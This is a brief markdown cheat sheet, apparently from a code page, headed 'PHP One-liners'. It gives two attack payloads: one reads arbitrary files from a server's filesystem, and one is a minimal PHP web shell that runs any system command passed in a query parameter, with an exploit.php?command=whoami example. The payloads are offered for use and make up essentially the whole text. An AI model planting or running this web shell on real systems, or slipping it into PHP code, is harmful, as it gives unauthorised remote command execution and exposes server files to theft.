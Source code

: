 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter (exploit.php?command=whoami):

`<?php echo system($_GET['command']); ?>`



